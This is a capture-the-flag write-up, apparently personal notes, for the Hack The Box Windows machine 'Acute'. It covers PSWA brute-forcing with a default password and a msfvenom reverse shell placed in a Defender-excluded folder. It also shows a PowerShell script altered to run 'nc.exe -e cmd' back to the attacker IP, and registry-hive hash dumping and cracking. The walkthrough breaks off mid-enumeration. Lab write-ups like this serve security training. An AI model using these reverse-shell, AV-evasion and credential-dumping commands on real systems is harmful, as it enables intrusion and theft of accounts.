


---
tags:
  - av_evasion
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Acute
- Reference : https://0xdf.gitlab.io/2022/07/16/htb-acute.html
- Solved : 2025.3.13. (Thu) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: TCP 443 only.
    - **Identified Domain**: `atsserver.acute.local` via SSL certificate.
    - **Web Enumeration**:
        - "New Starter Forums" revealed employee names.
        - Username format inferred: `flast` (e.g., `edavies`).
        - Found MS Word document metadata and default password hint (`Password1!`).
        
2. **Web Exploitation & Initial Access**
    - **Powershell Web Access (PSWA)**:
        - Brute-forced valid credential: `edavies : Password1!`.
        - Logged in via PSWA and gained shell.
        
3. **Shell as `edavies`**
    - **Defender Bypass**:
        - Discovered Defender exclusion path: `C:\Utils`.
        - Uploaded and executed reverse shell payload (`.exe`).
        - Obtained interactive shell as `edavies`.
        
4. **Shell as `imonks`**
    - **Screen Capture via Meterpreter**:
        - Found `imonks` credential from visible terminal: `W3_4R3_th3_f0rce`.
        - Used `Invoke-Command` with new creds to run commands on `atsserver`.
        
5. **Shell as `jmorgan`**
    - **Password Decryption Script (`wm.ps1`)**:
        - PowerShell script revealed obfuscated password for `jmorgan`.
        - Modified script to trigger reverse shell instead of `Get-Volume`.
        - Got shell as `jmorgan` (local admin on `Acute-PC01`).
        
6. **Shell as `awallace`**
    - **Hash Dump & Crack**:
        - Used `reg save` + `secretsdump.py` to extract hashes.
        - Cracked `Administrator` hash: `Password@123`.
        - Found `awallace` is a valid user with that password.
        - Gained shell via `Invoke-Command`.
        
7. **Privilege Escalation**
    - **KeepMeOn Scheduled Script Abuse**:
        - Found `keepmeon.bat` runs every 5 mins and executes `.bat` scripts.
        - Planted `.bat` file to add `awallace` to `Site_Admin` group.
        - `Site_Admin` grants Domain Admin privileges.
    - **Final Access**:
        - `awallace` now part of privileged group.
        - Accessed `Administrator` desktop and retrieved `root.txt`.

### Key Techniques:

- **Username Enumeration via Metadata**
- **PSWA Brute-force & Credential Reuse**
- **AV Exclusion Path Exploitation**
- **Password Discovery via RDP Screen Leak**
- **Credential Abuse via Encrypted Script**
- **Hash Dump + Crack (SAM/SECURITY/SYSTEM)**
- **Privilege Escalation via Trusted Script Abuse**

---

# Reconnaissance

### Port Scanning

```yaml
┌──(kali㉿kali)-[~/htb/acute]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.145
[*] Performing quick TCP port scan on 10.10.11.145...
[*] Performing quick UDP port scan on 10.10.11.145 (top 1000 UDP ports)...
[+] Found open TCP ports: 443
[*] Performing detailed TCP scan on 10.10.11.145...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 09:41 MDT
Nmap scan report for 10.10.11.145
Host is up (0.14s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-03-12T15:42:19+00:00; 0s from scanner time.
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.63 seconds
[-] No open UDP ports found on 10.10.11.145.
```

Let's add `atsserver.acute.local` on `/etc/hosts`.

### https(443)


I enumerated through the web site, and saw most of the links are meaningless.
Among them, I found one valid one from "About Us" menu : "New Starter Forums"


Also I found a comment listing employees' names.
Let's save them as a username list.


```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ cat employee.lst 
Aileen Wallace
Charlotte Hall
Evan Davies
Ieuan Monks
Joshua Morgan
Lois Hopkins
```


# Shell as `edavies` on `Acute-PC01`

### Analyze MS word file

When I clicked the link, it downloaded a MS Word file.


The metadata of the document.
Given the creater's name is "FCastle", I can assume that the username conversion is "First character of firstname + Last name".
Like "Daniel",  usernames could be just a single name.
The document is created on a machine named "Acute-PC01".

```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ exiftool New_Starter_CheckList_v7.docx                                         
ExifTool Version Number         : 13.00
File Name                       : New_Starter_CheckList_v7.docx
Directory                       : .
File Size                       : 35 kB
File Modification Date/Time     : 2025:03:12 10:10:01-06:00
File Access Date/Time           : 2025:03:12 10:11:24-06:00
File Inode Change Date/Time     : 2025:03:12 11:03:49-06:00
File Permissions                : -rw-rw-r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x079b7eb2
Zip Compressed Size             : 428
Zip Uncompressed Size           : 2527
Zip File Name                   : [Content_Types].xml
Creator                         : FCastle
Description                     : Created on Acute-PC01
Last Modified By                : Daniel
Revision Number                 : 8
Last Printed                    : 2021:01:04 15:54:00Z
Create Date                     : 2021:12:08 14:21:00Z
Modify Date                     : 2021:12:22 00:39:00Z
Template                        : Normal.dotm
Total Edit Time                 : 2.6 hours
Pages                           : 3
Words                           : 886
Characters                      : 5055
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 42
Paragraphs                      : 11
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : University of Marvel
Links Up To Date                : No
Characters With Spaces          : 5930
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 16.0000
```

With the found username convention, let's make a username list.

```bash
┌──(kali㉿kali)-[~/htb/acute/username-anarchy-0.6]
└─$ ./username-anarchy --input-file ../employee.lst --select-format flast 
awallace
chall
edavies
imonks
jmorgan
lhopkins

┌──(kali㉿kali)-[~/htb/acute/username-anarchy-0.6]
└─$ ./username-anarchy --input-file ../employee.lst --select-format flast > ../username.lst
```

The document seems to be a "Checklist document for New Starters".



There's a comment about default password which might be useful once we obtain any valid username list.


There's a comment regarding PSWA(Powershell Web Access), with session name.


I roamed around the document and clicked all hyper links in it.
Among them, I found one valid one which is not redirected to redundant pages.


It says that `Lois` is the only "site admin".


### Powershell Web Access

The loaded page seems to be a Powershell Web Access page which requires authentication.


I set the inputs as follows;
- User name : Needs to brute-force with the username list created above.
- Password : `Password1!`
- Computer name : `Acute-PC01`

I used `Intruder` function in `Burpsuite`, and found out that one username `edavies` shows different response length, which is a good sign.



Using that username, I signed-in and was redirected to Powershell Session.


### Bypass Defender to obtain a reverse shell

I tried to upload reverse shell payload and tried run it.
However, it was blocked by Defender.


I can query for folders that are not inspected using this query;

```powershell
PS C:\Users\edavies\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
    C:\Utils    REG_DWORD    0x0
    C:\Windows\System32    REG_DWORD    0x0
```

So `C:\Utils` is not verified. Let's prepare a payload first.
I tried `ps1` first and it failed. But `exe` worked.

```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=9000 -f exe -o rshell_9000.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rshell_9000.exe
```

Let’s download the binary in that folder:

```powershell
PS C:\Users\edavies\Documents> cd C:\Utils

PS C:\Utils> curl http://10.10.14.7:8000/rshell_9000.exe -o rshell_9000.exe

PS C:\Utils> Set-ExecutionPolicy Bypass -Scope Process

PS C:\Utils> .\rshell_9000.exe
```

Then the listener spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.145] 49786
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Utils>whoami
whoami
acute\edavies
```


# Shell as `imonks` on `Acute-PC01`

### Enumeration

Given the result of `ipconfig` command, I don't think the compromised system is the main target.

```powershell
C:\Utils>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14
   IPv4 Address. . . . . . . . . . . : 172.16.22.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
```

I found out that the target server's name is `atsserver` and its IP address is `172.16.22.1`.

```powershell
C:\Utils>hostname
hostname
Acute-PC01

C:\Utils>arp -a     
arp -a

Interface: 172.16.22.2 --- 0xe
  Internet Address      Physical Address      Type
  172.16.22.1           00-15-5d-e8-0a-00     dynamic   
  172.16.22.255         ff-ff-ff-ff-ff-ff     static    
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  239.255.255.250       01-00-5e-7f-ff-fa     static    

C:\Utils>nslookup 
nslookup
DNS request timed out.
    timeout was 2 seconds.
Default Server:  UnKnown
Address:  172.16.22.1

> atsserver
*** UnKnown can't find atsserver: Non-existent domain
Server:  UnKnown
Address:  172.16.22.1
```

Let's run `winPEAS`. First let's check architecture.

```powershell
PS C:\Utils> $env:PROCESSOR_ARCHITECTURE

AMD64
```

Then, let's run `winPEAS`.

```yaml
����������͹ Windows Defender configuration
  Local Settings

  Path Exclusions:
    C:\Utils
    C:\Windows\System32

  PolicyManagerPathExclusions:
    C:\Utils
    C:\Windows\System32
  Group Policy Settings


����������͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.19041.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\edavies\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt


����������͹ RDP Sessions
    SessID    pSessionName   pUserName      pDomainName              State     SourceIP
    1         Console        edavies        ACUTE                    Active    
```

There's a RDP session open.
To capture this screen, I changed the shell to meterpreter.


Luckily, the screen shows a powershell terminal which contains `acute\imonks` credential : `W3_4R3_th3_f0rce`

### Port scanning on `atsserver`

```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ /opt/custom-scripts/port-scan.sh 172.16.22.1 
[*] Performing quick TCP port scan on 172.16.22.1...
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
[*] Performing quick UDP port scan on 172.16.22.1 (top 1000 UDP ports)...
[+] Found open TCP ports: 53,88,135,139,389,443,445,464,593,636,2179,3268,3269,5985,6600,9389,49667,49675,49676,49903,49904,49928
[*] Performing detailed TCP scan on 172.16.22.1...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 14:23 MDT
Nmap scan report for 172.16.22.1
Host is up (0.28s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-12 20:23:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: acute.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-12T20:27:03+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
443/tcp   open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2025-03-12T20:27:03+00:00; 0s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: acute.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-12T20:27:03+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: acute.local0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-12T20:27:03+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: acute.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
|_ssl-date: 2025-03-12T20:27:03+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6600/tcp  open  mshvlm?
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49903/tcp open  msrpc         Microsoft Windows RPC
49904/tcp open  msrpc         Microsoft Windows RPC
49928/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: ATSSERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Open PSsession as `imonk`

As the captured screenshot, let's open a PSsession.

```powershell
PS C:\Utils> $pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force

PS C:\Utils> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\imonks", $pass)
```

Got an error when openning PSSession.
It says `Measure-Object` command is not recognized as cmdlet.

```powershell
PS C:\Utils> Enter-PSSession -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Enter-PSSession : The term 'Measure-Object' is not recognized as the name of a cmdlet, function, script file, or 
operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try 
again.
At line:1 char:1
+ Enter-PSSession -ComputerName ATSSERVER -Credential $cred -Configurat ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Measure-Object:String) [Enter-PSSession], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Instead, I can use `Invoke-Command`.

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami }
acute\imonks               
```

I can now run commands as `imonks`!


# Shell as `jmorgan` on `Acute-PC01`

### Investigate powershell script

There is a powershell script on `imonks`'s home directory besides flag file : `wm.ps1`

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ls C:\Users\imonks\Desktop }

    Directory: C:\Users\imonks\Desktop

Mode     LastWriteTime             Length Name        PSComputerName             
------------------------------------------------------------------------
-ar---     3/12/2025   3:30 PM       34   user.txt    ATSSERVER
-a----     1/11/2022   6:04 PM       602  wm.ps1      ATSSERVER   
```

Let's read it. It seems that it's a script run as similar method as we did as `jmorgan`'s credential.

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat C:\Users\imonks\Desktop\wm.ps1 }

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'

$passwd = $securepasswd | ConvertTo-SecureString

$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)

Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

We can try the same to run commands as `jmorgan`.

### Open reverse shell as `jmorgan`

It seems that `jmorgan` belongs to `Acute-PC01`'s `Administrators` group.

```powershell
PS C:\Utils> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain Members
-------------------------------------------------------------------------------
ACUTE\Domain Admins
ACUTE\jmorgan
Administrator
The command completed successfully.
```

I tried to reproduce it, but failed initially.

```powershell
PS C:\Utils> $passwd = $securepasswd | ConvertTo-SecureString ConvertTo-SecureString : Key not valid for use in specified state.

At line:1 char:27
+ $passwd = $securepasswd | ConvertTo-SecureString
+                           ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [ConvertTo-SecureString], CryptographicException
    + FullyQualifiedErrorId : ImportSecureString_InvalidArgument_CryptographicError,Microsoft.PowerShell.Commands.ConvertToSecureStringCommand
```

I thought I could run it as `imonks` instead, and it worked.

```yaml
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }

PSComputerName       : ATSSERVER
RunspaceId           : 96b3c263-fbe1-447e-8af0-fb0306c9e936
ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.ObjectId="{8ccfebca-48c0-11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000-0000-100000000000}\"
PassThroughClass     : 
PassThroughIds       : 
PassThroughNamespace : 
PassThroughServer    : 
UniqueId             : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
AllocationUnitSize   : 4096
DedupMode            : 4
DriveLetter          : 
DriveType            : 3
FileSystem           : NTFS
FileSystemLabel      : System Reserved
FileSystemType       : 14
HealthStatus         : 0
OperationalStatus    : {2}
Path                 : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
Size                 : 52424704
SizeRemaining        : 20611072

...SNIP...
```

I think if I can replace the original command `Get-Volume` to reverse shell payload, I can open a shell as `jmorgan`.
Here's the payload I use : `nc.exe -e cmd 10.10.14.7 9001`
I need to upload `nc.exe` in advance.

```powershell
PS C:\Utils> curl http://10.10.14.7:8000/nc.exe -o nc.exe

PS C:\Utils> Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc.exe -e cmd 10.10.14.7 9001') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat C:\Users\imonks\Desktop\wm.ps1 }

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'

$passwd = $securepasswd | ConvertTo-SecureString

$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)

Invoke-Command -ScriptBlock {C:\utils\nc.exe -e cmd 10.10.14.7 9001} -ComputerName Acute-PC01 -Credential $creds
```

Now let's run this again after setting up a listener.

```powershell
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
```

Then, the listener soon open a shell as `jmorgan`.

```bash
┌──(kali㉿kali)-[~/htb/acute]
└─$ nc -nlvp 9001               
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.145] 49865
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\jmorgan\Documents>whoami
whoami
acute\jmorgan
```


# Shell as `awallace` on `atsserver`

### Dump hash

Since `jmorgan` belongs to `Administrators` group, we can dump registry hive.

```powershell
C:\Users\jmorgan\Desktop>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level       Label            S-1-16-12288  


C:\Users\jmorgan\Documents>reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SYSTEM SYSTEM.SAVE
The operation completed successfully.

C:\Users\jmorgan\Documents>reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SECURITY SECURITY.SAVE
The operation completed successfully.

C:\Users\jmorgan\Documents>reg save HKLM\SAM SAM.SAVE
reg save HKLM\SAM SAM.SAVE
The operation completed successfully.
```

Let's dump the hash using `impacket-secretsdump`.

```bash
┌──(kali㉿kali)-[~/htb/acute/hashdump]
└─$ impacket-secretsdump -sam SAM.SAVE -security SECURITY.SAVE -system SYSTEM.SAVE local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:d53548e375b01330d9749a466a1566871d95ed8f069dd9bba68372a03784bcac40bd640e76517da77940f84dbb1b7c8e70501b0783224199aff238e34ef4d65bbe45efe2cb833a06e1a94fa2483fe85361fcb88e6353d06a51fead5c1c30c985a80f965786fe99900242bbce5acda9adc64741eaf0b619cb1be992528b75aa5b694462ed1a41d9fbccff8f8bf340cd4240cb74e012cb794c17ae86749918645c041e8bc4adbb74b4dd583876c689dc7b1a6376b545734decb02b4ec818fd5805bcb848e732677ca37c0448e86fc070fced14d96a712725c4cd136b44b892e52a7b9d19a013305621fb124817e1005c63
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9fc5fa219603120dfd0d57e8a75e050e
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x574d0cc939c9f986cba32d1546a7fa28747425e0
dpapi_userkey:0x4a77ea6673a027ecd81e4ca010b1d3f70fe1d9cd
[*] NL$KM 
 0000   62 2A 29 8D F9 77 CC DD  EE EB 23 20 B2 E2 AF 59   b*)..w....# ...Y
 0010   0B F6 33 E0 95 5D B0 03  B1 01 85 55 9D 16 64 4D   ..3..].....U..dM
 0020   53 1F 93 7B FB EF 2B F7  6E 76 B1 02 3D 63 CC DF   S..{..+.nv..=c..
 0030   F0 35 6F E3 19 8A 69 C1  2E F6 78 80 45 51 EE 0A   .5o...i...x.EQ..
NL$KM:622a298df977ccddeeeb2320b2e2af590bf633e0955db003b10185559d16644d531f937bfbef2bf76e76b1023d63ccdff0356fe3198a69c12ef678804551ee0a
[-] NTDSHashes.__init__() got an unexpected keyword argument 'skipUser'
[*] Cleaning up... 
```

Using `hashcat`, I was able to crack `Administartor`'s hash.

```bash
┌──(kali㉿kali)-[~/htb/acute/hashdump]
└─$ hashcat -m 1000 -a 0 hashes /usr/share/wordlists/rockyou.txt        
hashcat (v6.2.6) starting

...SNIP...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

a29f7623fd11550def0192de9246f46b:Password@123     
...SNIP...
```

### Run commands as `awallace`

I tried to use the cracked password with prepared username list on PSWA session, but it didn't work.

Instead, I used powershell command line approach as we did so far, and `awallace` worked with found credential.

```powershell
PS C:\Users\jmorgan\Documents> $pass = ConvertTo-SecureString "Password@123" -AsPlaintext -Force


PS C:\Users\jmorgan\Documents> $cred = New-Object System.Management.Automation.PSCredential ("acute\awallace", $pass)


PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami }

acute\awallace
```

With `awallace`'s authorization, I can access to `C:\Program Files\keepmeon\'.
There's a single `bat` script in it.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ls 'C:\Program Files\keepmeon' }
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ls 'C:\Program Files\keepmeon' }

    Directory: C:\Program Files\keepmeon

Mode       LastWriteTime       Length Name           PSComputerName
-----------------------------------------------------------------------
-a----     21/12/2021 14:57    128    keepmeon.bat   atsserver       
```

Given the mention of `Lois` which is mentioned on MS word file as a only administrator, I think this will be the link to next privesc vector.
Also, it says the script runs every 5 minutes.
It’s simply looping over any `.bat` files in this directory, and if they aren’t this one, running them. The comment says it runs every five minutes, and it’s for Lois.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat 'C:\Program Files\keepmeon\keepmeon.bat' }

REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

Here's user and group lists.
I can see `Site_Admin` is on the group list which is mentioned on MS word.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net user /domain }
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net user /domain }

User accounts for \\

-------------------------------------------------------------------------------
Administrator            awallace                 chall                    
edavies                  Guest                    imonks                   
jmorgan                  krbtgt                   lhopkins                 
The command completed with one or more errors.

PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group /domain }
